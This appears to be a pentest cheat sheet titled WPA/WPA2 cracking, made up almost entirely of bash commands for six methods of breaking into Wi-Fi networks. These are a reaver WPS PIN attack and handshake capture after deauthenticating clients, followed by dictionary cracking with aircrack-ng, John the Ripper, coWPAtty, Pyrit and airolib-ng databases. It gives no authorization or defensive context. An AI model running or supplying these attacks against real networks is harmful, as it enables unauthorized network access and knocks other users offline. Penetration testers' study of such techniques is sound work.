 [[WPA]] / [[WPA2]] Cracking
```bash
# Method 1 : WPS Attack
airmon-ng start wlan0
apt-get install reaver
wash -i wlan0mon -C
reaver -i wlan0mon -b <BSSID> -vv -S
#or, Specific attack
reaver -i -c <Channel> -b <BSSID> -p <PinCode> -vv -S

# Method 2 : Dictionary Attack
airmon-ng start wlan0
airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
aireplay-ng -0 1 -a <BSSID> -c <VictimMac> wlan0mon
aircrack-ng -w <WordlistFile> -b <BSSID> <Handshaked_PCAP>

# Method 3 : Crack with John The Ripper
airmon-ng start wlan0
airodump-ng -c <Channel> --bssid <BSSID> -w <FileName> wlan0mon
aireplay-ng -0 1 -a <BSSID> -c <VictimMac> wlan0mon
cd /pentest/passwords/john
john -wordlist=<Wordlist> --rules -stdout|aircrack-ng -0 -e <ESSID> -w - <PCAP_of_FileName>

# Method 4 : Crack with coWPAtty
airmon-ng start wlan0
airodump-ng -c <Channel> --bssid <BSSID> -w <FileName> wlan0mon
aireplay-ng -0 1 -a <BSSID> -c <VictimMac> wlan0mon
cowpatty -r <FileName> -f <Wordlist> -2 -s <SSID>
genpmk -s <SSID> -f <Wordlist> -d <HashesFileName>
cowpatty -r <PCAP_of_FileName> -d <HashesFileName> -2 -s <SSID>

# Method 5 : Crack with Pyrit
airmon-ng start wlan0
airodump-ng -c <Channel> --bssid <BSSID> -w <FileName> wlan0mon
aireplay-ng -0 1 -a <BSSID> -c <VictimMac> wlan0mon
pyrit -r<PCAP_of_FileName> -b <BSSID> -i <Wordlist> attack_passthrough
pyrit -i <Wordlist> import_passwords
pyrit -e <ESSID> create_essid
pyrit batch
pyrit -r <PCAP_of_FileName> attack_db

# Method 6 : Precomputed WPA Keys Database Attack
airmon-ng start wlan0
airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
aireplay-ng -0 1 -a <BSSID> -c <VictimMac> wlan0mon
kwrite ESSID.txt
airolib-ng NEW_DB --import essid ESSID.txt
airolib-ng NEW_DB --import passwd <DictionaryFile>
airolib-ng NEW_DB --clean all
airolib-ng NEW_DB --stats
airolib-ng NEW_DB --batch
airolib-ng NEW_DB --verify all
aircrack-ng -r NEW_DB <Handshaked_PCAP>
```
